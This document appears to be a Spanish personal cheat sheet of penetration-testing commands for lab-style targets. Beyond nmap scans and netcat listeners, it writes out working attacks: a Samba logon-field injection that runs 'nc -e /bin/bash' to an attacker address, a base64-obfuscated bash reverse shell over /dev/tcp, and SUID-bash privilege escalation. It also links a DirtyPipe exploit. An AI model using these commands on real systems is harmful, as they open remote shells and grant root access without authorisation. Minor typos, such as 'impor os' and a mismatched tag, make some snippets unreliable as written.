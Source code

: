 # Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

Especifico de vulnerabilidades sin intrusión
<pre>
nmap -p139,445 --script="Vuln and Safe" 192.168.168.193 -oN vulnScan 
</pre>

Enumeracion de directorios WEB básicos
<pre>
nmap --script http-enum -p80 10.10.10.180 -oN webScan
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

Si la consola nos da problemas con **script /dev/null -c bash** podemos prbar con python:

</pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>

## MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

## PYTHON

### Permisos de superusuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**


## OTROS

Nos mandamos consola:

<pre>
echo 'bash -i >& /dev/tcp/192.168.168.212/443 0>&1' | base64 

echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2OC4yMTIvNDQzIDA+JjEK' | base64 -d | bash

</pre>

Para buscar ficheros con permisos suid

<pre>

find / -perm -u=s -type f 2>/dev/null
find \-perm -4000 2>/dev/null


</pre>

Permisos de superusuario a la consola:

<pre>
#!/bin/bash

chmod u+s /bin/bash
</pre>
Al tener pkexec utilizamos:

https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
